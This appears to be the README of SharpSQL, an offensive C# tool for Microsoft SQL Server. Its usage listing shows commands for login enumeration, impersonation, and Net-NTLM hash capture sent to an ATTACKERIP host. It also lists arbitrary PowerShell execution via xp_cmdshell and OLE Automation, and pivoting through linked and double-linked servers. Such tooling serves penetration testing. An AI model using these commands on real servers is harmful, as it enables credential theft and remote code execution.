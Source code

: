 # SharpSQL

----

SharpSQL is a C# tool for Microsoft SQL interaction and abuses. 

### Command Line Usage

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.2.0 (02/23/2023)

    MSSQL Authenticated Server Enumeration and Impersonation:

        [1] Retrieve Login Information on the Connected SQL Server:
                SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
                SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
                SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
                SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Command Execution:
    
        [1] Base64 Encode an Arbitrary String for the '/command' Switch:
                SharpSQL.exe encode /command:STRING
        [2] Execute Arbitrary Encoded PowerShell Command via 'xp_cmdshell':
                SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Arbitrary Encoded PowerShell Command via 'Ole Automation Procedures':
                SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Linked SQL Server:
                SharpSQL.exe linkedlogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxplogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Linked SQL Server:
                SharpSQL.exe linkedhash /db:DATABASE /server:SERVER /target:TARGET /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
                SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [5] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [6] Configure Linked SQL Server to Allow RPC connections:
                SharpSQL.exe linkedrpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Double Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Double-Linked SQL Server:
                SharpSQL.exe dbllinkedlogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Double-Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxplogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

### getlogin
![](../images/getlogin.png)
![](../images/getlogin-sqlauth.png)

### getdbuser
![](../images/getdbuser.png)
![](../images/getdbuser-sqlauth.png)

### gethash
![](../images/gethash.png)

### getlinked
![](../images/getlinked.png)

### encode
![](../images/encode.png)

### xp
![](../images/xp.png)

### linkedlogin
![](../images/linkedlogin.png)

### linkedxplogin
![](../images/linkedxplogin.png)

### linkedhash
![](../images/linkedhash.png)

### linkedxp
![](../images/linkedxp.png)

### linkedrpc
![](../images/disabled-linkedrpc.png)
![](../images/enabled-linkedrpc.png)

### dbllinkedlogin
![](../images/dbllinkedlogin.png)

### dbllinkedxplogin
![](../images/dbllinkedxplogin.png)

### dbllinkedxp
![](../images/dbllinkedxp.png)
